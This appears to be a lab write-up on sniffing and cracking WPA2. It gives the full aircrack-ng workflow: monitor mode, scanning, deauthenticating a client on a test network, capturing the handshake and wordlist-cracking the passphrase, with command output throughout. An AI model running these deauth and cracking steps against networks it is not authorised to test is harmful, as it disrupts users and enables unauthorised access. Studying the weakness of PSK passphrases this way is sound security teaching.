

# Wireless sniffing

1. Goal
    * Collect and analyze wireless traffic.

2. Used hardware
    * Alfa AWUS036NHA (Long-range USB Adapter)
    * TL-MR3020 (Porable 3G/4G Wireless N Router)
    * 1 laptop with Kali Linux
    * 1 device with a wireless connection (Smartphone, tablet, ...)

3. Used software
    * Kali Linux (2019.4)

4. Setup



5. Getting started
    1. Display the list of available adapters (Kali Linux)
    
    ```
    root@kali:~# airmon-ng

    PHY     Interface       Driver          Chipset

    phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
    phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

    root@kali:~#
    ```
    
    2. Monitor mode allows a wireless network interface controller to monitor all traffic received on a wireless channel.
        1. Kill the network managers. (To Avoid interference with other tools)
        ```
        root@kali:~# airmon-ng check kill

        Killing these processes:

        PID Name
        626 wpa_supplicant

        root@kali:~#
        ```
        2. Put the adapter in monitor mode
        ```
        root@kali:~# airmon-ng start wlan1

        PHY     Interface       Driver          Chipset

        phy0    wlan0           iwlwifi         Intel Corporation WiFi Link 5100
        phy1    wlan1           ath9k_htc       Qualcomm Atheros Communications AR9271 802.11n

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)

        root@kali:~#
        ```
        3. Scan the environment
        ```
        root@kali:~# airodump-ng wlan1mon

        CH 11 ][ Elapsed: 36 s ][ 2019-12-23 18:58

        BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -39       69        0    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST
        3A:43:3D:4B:CE:5E  -55       51        0    0   6  130  WPA2 CCMP   MGT  TelenetWiFree
        04:BF:6D:22:9B:6E  -83       15        0    0   6  130  WPA2 CCMP   PSK  Wireless
        0A:19:70:AA:AB:25  -86        9        0    0   1  54e. WPA2 CCMP   MGT  Proximus Public Wi-Fi
        1E:B0:44:3B:F6:7D  -89        2        0    0   1  130  WPA2 CCMP   PSK  Guest-Orange-bf678
        AC:22:05:AC:81:93  -90        5        0    0   1  130  WPA2 CCMP   PSK  MyBike
 
        root@kali:~#
        ```
    3. Hacking WPA2

        [More information about Wi-Fi Protected Access](https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access)
  
        1. Capture data from a specified BSSID. We are seeking for the MAC address of the victim.
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w tkip wlan1mon

        CH  1 ][ Elapsed: 1 min ][ 2019-12-23 19:03

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -27  93      995       45    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -37    1e- 1      0       11

        root@kali:~#
        ```
        2.While capturing data in one terminal, deautenticate the victim in a second terminal.
        ```
        root@kali:~# aireplay-ng --deauth 2 -a 68:FF:7B:45:A5:88 -c C0:33:5E:DD:CA:FD wlan1mon
        19:10:10  Waiting for beacon frame (BSSID: 68:FF:7B:45:A5:88) on channel 1
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [61|66 ACKs]
        19:10:11  Sending 64 directed DeAuth (code 7). STMAC: [C0:33:5E:DD:CA:FD] [60|64 ACKs]
        root@kali:~#
        ```
        In the first terminal Airodump-ng should display 'WPA handshake'
        ```
        root@kali:~# airodump-ng --bssid 68:FF:7B:45:A5:88 -c 1 -w ccmp  wlan1mon

        CH  1 ][ Elapsed: 42 s ][ 2019-12-23 19:40 ][ WPA handshake: 68:FF:7B:45:A5:88

        BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

        68:FF:7B:45:A5:88  -28  71      380       13    0   1  270  WPA2 CCMP   PSK  TP-Link_TEST

        BSSID              STATION            PWR   Rate    Lost    Frames  Probe

        68:FF:7B:45:A5:88  C0:33:5E:DD:CA:FD  -42    1e- 1e     0       19

        root@kali:~#
        ```
        3. Resolving the PSK. We make use of a list of known passwords.
        ```
        root@kali:~# aircrack-ng  -w /usr/share/john/password.lst ccmp-01.cap
        Opening ccmp-01.capease wait...
        Read 988 packets.

            #  BSSID              ESSID                     Encryption

            1  68:FF:7B:45:A5:88  TP-Link_TEST              WPA (1 handshake)

        Choosing first network as target.

        Opening ccmp-01.capease wait...
        Read 988 packets.

        1 potential targets

                                      Aircrack-ng 1.5.2

            [00:00:00] 428/649 keys tested (1267.84 k/s)

            Time left: 0 seconds                                      65.95%

                                   KEY FOUND! [ NotSecure ]

            Master Key     : 36 D7 58 30 73 6D C6 14 43 22 E9 94 75 C8 D7 66
                             6D D3 E9 5C A0 32 42 68 9B 66 34 5B 98 83 4E 22

            Transient Key  : 64 3A 8D C6 6A ED AD 65 58 4B 52 04 29 D8 01 A0
                             8D C3 E7 F2 E7 35 40 BE 30 9C A1 F0 A2 04 6B 81
                             D7 8A 35 79 4D 38 86 EB 0F 1E BB 5D FB 0B ED 6F
                             F3 67 A4 EC 19 9E D0 79 5F C5 AF CB FA 62 DC D4

            EAPOL HMAC     : 6F 1D 9E 64 3E 39 5C 16 55 FC CB B0 F7 B0 6B 77
        root@kali:~#
        ```
6. Conclusion
    * Pre-shared key WPA and WPA2 remain vulnerable to password cracking attacks if users rely on a weak password or passphrase.